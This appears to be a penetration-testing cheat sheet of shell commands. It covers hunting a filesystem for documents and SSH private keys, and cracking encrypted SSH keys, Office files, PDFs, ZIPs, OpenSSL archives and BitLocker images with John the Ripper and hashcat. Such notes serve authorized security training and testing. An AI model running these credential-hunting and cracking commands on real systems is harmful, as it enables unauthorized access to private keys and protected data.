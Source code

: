 ## Protected Files

### Hunting for files

```bash
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

### Hunting for SSH keys

```bash
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"

## Encrypted SSH keys
cat /home/cry0l1t3/.ssh/SSH.private

## Convert to SSH hash
ssh2john.py SSH.private > ssh.hash

## Crack using John
john --wordlist=rockyou.txt ssh.hash
```

## Cracking Documents

### Cracking Microsoft Office documents

```bash
office2john.py Protected.docx > protected-docx.hash

john --wordlist=rockyou.txt protected-docx.has
```

### Cracking PDFs

```bash
pdf2john.py PDF.pdf > pdf.hash

john --wordlist=rockyou.txt pdf.hash
```

### Cracking ZIP

```bash
zip2john ZIP.zip > zip.hash

john --wordlist=rockyou.txt zip.hash
```

### Cracking OpenSSL Encrypted Archives

```bash
## Check file type 
file GZIP.zip

## Use for-loop to display extracted contents
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done
```

### Cracking BitLocker Encrypted Drives

```bash
bitlocker2john -i Backup.vhd > backup.hashes

grep "bitlocker\$0" backup.hashes > backup.hash

## Use hashcat to crack
hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked
```

